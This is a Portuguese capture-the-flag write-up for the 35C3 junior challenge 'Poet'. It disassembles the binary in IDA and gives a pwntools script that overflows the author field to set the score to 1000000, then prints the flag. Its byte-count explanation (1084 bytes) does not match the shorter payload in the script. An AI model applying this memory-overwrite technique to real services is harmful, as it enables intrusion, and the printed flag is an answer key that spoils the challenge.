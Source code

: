 ## [35C3CTF](https://ctftime.org/event/718)
### Nome: [Poet](https://35c3ctf.ccc.ac/uploads/juniorctf/poet-724c1a07d5cf958381856c332e9019d57b5d51bf.zip)
#### Dificuldade: Muito fácil
**Descrição**: 
*We are looking for the  poe  of the year:* `nc 35.207.132.47 22223`
## Levantamento de informações
Ao baixarmos e extrairmos o arquivo zip, obtemos o arquivo Poet:
                                                                                                                                                                            
    C:\Users\ecarlosn\Desktop\poetwu                                                                                                                                        
    > File poet                                                                                                                                                             
    poet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=145cad36473cb
    96072142f67bbde20e991c5a4b7, not stripped                                                                                                                               
*Antes de qualquer ação, vejamos o que o executável faz.*

    **********************************************************
    * We are searching for the poet of the year 2018.        *
    * Submit your one line poem now to win an amazing prize! *
    **********************************************************
    Enter the poem here:
    > happy new year
    Who is the author of this poem?
    > deadlock
    
    +---------------------------------------------------------------------------+
    THE POEM
    happy new year
    SCORED 0 POINTS.
    
    SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!
    +---------------------------------------------------------------------------+

**"SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!"**
    *A mensagem exibida diz que precisamos pontuar exatamente **1000000**. Hora de analisar o executável.*

## Solução
 Para a análise em questão, foi utilizado o [IDA](https://www.hex-rays.com/products/ida/support/download_freeware.shtml).

![IDA screenshot](https://i.imgur.com/XookLxm.png)

*No endereço **00000000004009D3** é possível vizualizar uma chamada à função **rate_poem( )**. Vejamos o que ela faz.*

    .text:000000000040080C loc_40080C:                             ; CODE XREF: rate_poem+8B↓j
    .text:000000000040080C                                         ; rate_poem+A2↓j ...
    .text:000000000040080C                 add     cs:dword_6024E0, 64h
    .text:0000000000400813
    .text:0000000000400813 loc_400813:                             ; CODE XREF: rate_poem+147↓j
    .text:0000000000400813                 lea     rsi, delim      ; " \n"
    .text:000000000040081A                 mov     edi, 0          ; s
    .text:000000000040081F                 call    _strtok
    .text:0000000000400824                 test    rax, rax
    .text:0000000000400827                 jz      loc_400909
    .text:000000000040082D
    .text:000000000040082D loc_40082D:                             ; CODE XREF: rate_poem+53↑j
    .text:000000000040082D                 mov     ecx, 5
    .text:0000000000400832                 mov     rsi, rax
    .text:0000000000400835                 mov     rdi, rbx
    .text:0000000000400838                 repe cmpsb
    .text:000000000040083A                 setnbe  dl
    .text:000000000040083D                 sbb     dl, 0
    .text:0000000000400840                 test    dl, dl
    .text:0000000000400842                 jz      short loc_40080C
    .text:0000000000400844                 mov     ecx, 4
    ...
    ...
    ...
    .text:0000000000400889                 mov     ecx, 7
    .text:000000000040088E                 lea     rdi, aRepeat    ; "repeat"
    ...
    ...
    .text:00000000004008A0                 test    dl, dl
    .text:00000000004008A2                 jz      loc_40080C
    .text:00000000004008A8                 mov     ecx, 4
    .text:00000000004008AD                 lea     rdi, aCtf       ; "CTF"
    .text:00000000004008B4                 mov     rsi, rax
    .text:00000000004008B7                 repe cmpsb
    .text:00000000004008B9                 setnbe  dl
    .text:00000000004008BC                 sbb     dl, 0
    .text:00000000004008BF                 test    dl, dl
    .text:00000000004008C1                 jz      loc_40080C
    .text:00000000004008C7                 mov     ecx, 8
    .text:00000000004008CC                 lea     rdi, aCapture   ; "capture"
    .text:00000000004008D3                 mov     rsi, rax
    ...
    ...
    .text:00000000004008DE                 test    dl, dl
    .text:00000000004008E0                 jz      loc_40080C
    .text:00000000004008E6                 mov     ecx, 5
    .text:00000000004008EB                 lea     rdi, aFlag      ; "flag"
    ...
    ...
    .text:00000000004008FC                 test    al, al
    .text:00000000004008FE                 jnz     loc_400813
    .text:0000000000400904                 jmp     loc_40080C
    .text:0000000000400909 ; ---------------------------------------------------------------------------
*A função nos retorna uma série de comparações com palavras específicas (**flag, pwn, CTF, capture**...).
Apesar das palavras da função nos retornarem pontos acima de Zero:*

    Enter the poem here:
    > flag
    Who is the author of this poem?
    > pwn
    +--------------------------------------------
    THE POEM
    flag
    SCORED 100 POINTS.
    
    SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!
*Após algumas análises, percebe-se que são irrelevantes para nossa resolução.*
*Voltando à função main, pode-se ver uma outra comparação no endereço **00000000004009D8**:*
![IDA screenshot](https://i.imgur.com/N7L3rSF.png)

*A comparação feita acima verifica se [rbx+440h] é igual à f4240h. Caso essa condição seja verdadeira,  você recebe o resultado da chamada( **flag** ), caso contrário, recebemos a mensagem de erro "**\nSORRY, THIS POEM....*** .

*o **H** no final da sequência de letras e números nos indica que os valores estão em [Hexadecimal](https://pt.wikipedia.org/wiki/Sistema_de_numera%C3%A7%C3%A3o_hexadecimal). Usando qualquer método de conversão para base10(**Decimal**), descobrimos que:*

 - 0x440h = 1088 **base10**
 - 0x_f4240h = 1000000 **base10**

 *Ótimo, encontramos a comparação que é feita para validação do poema/autor. Então, precisamos fazer com que  o registrador **rbx + 1088 = 0xf4240**.*
 *Após uma depuração, pode-se perceber que o responsável pelo nosso input está em **[rbx+1088]** Desta forma, podemos montar nosso script.*
 No caso em questão, foi utilizada a lib [pwntools](http://docs.pwntools.com/en/stable/) no [python2.7](https://www.python.org/download/releases/2.7/).

*Sabendo que **rbx** precisa receber **1088** bytes e que o **cmpl** trabalha com os últimos**4 bytes**, enviamos **1084** bytes aleatórios + valor à ser comparado nos últimos .*
   

    from pwn import *
    
    r = remote('35.207.132.47', '22223')   
    print r.recvuntil('Enter the poem here:\n')
    r.sendline('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa\x40\x42\x0f\x00')
    print r.recvuntil('this poem?\n')
    r.sendline('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa\x40\x42\x0f\x00')
    print r.recvline()
    print r.recvline()
    print r.recvuntil('POINTS')
    print r.recv(1024)

*No script, enviamos o valor em **Hexadecimal** nos últimos 4 bytes que formam 1088, assim, quando a comparação for feita, teremos que **0x_f4240h == 0x_f4240h** *

 - *As letras aleatórias no script podem ser substituídas por exemplo, por* "A" **1084. Feito desta maneira apenas por questões de entendimento geral.*

*após a execução:*

![enter image description here](https://i.imgur.com/AEo9lHY.png)
-
**FLAG     : **35C3_f08b903f48608a14cbfbf73c08d7bdd731a87d39****

---
## Recomendações para entendimento geral
[x64_cheatsheet.pdf](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)
[Assembly Control Flow](https://en.wikibooks.org/wiki/X86_Assembly/Control_Flow)
[CMPx86](https://www.felixcloutier.com/x86/cmp)

